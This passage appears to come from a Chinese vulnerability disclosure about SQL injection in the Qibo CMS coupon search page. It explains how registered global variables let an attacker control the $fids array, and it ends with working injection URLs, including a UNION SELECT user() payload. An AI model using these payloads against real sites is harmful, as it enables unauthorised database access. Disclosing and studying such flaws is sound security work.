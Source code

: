$fids[]=$rs[fid];

}

查询出来 fid，将$fid 放进$fids 数组中。之后用 implode 将$fids 数组变成字符串，放进 IN 子句中，IN 子句并没有单引号限制。

看起来没问题，因为$fids 是$rs[fid]组成的数组。但这里很重要的是，了解齐博的都知道，齐博在 inc/common.inc.php 中有这样一段：

```php
foreach($_COOKIE AS $_key=>$_value){

    unset($$_key);

}

foreach($_POST AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_POST[$_key];

}

foreach($_GET AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_GET[$_key];

} 
```

等于说将$_GET/$_POST/$_COOKIE 注册成全局变量了。所以$fids 的初值我们是可以控制的，这个 while 语句前也没有清除$fids，只是往这个数组里加$fid。

最后导致了注入。

我们可以看看演示站：

```php
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]='&fids[]=xx

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0) union select user(),2,3,4,5,6,7,8,9%23 
```

## 漏洞证明

```php
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0) union select user(),2,3,4,5,6,7,8,9%23 
```

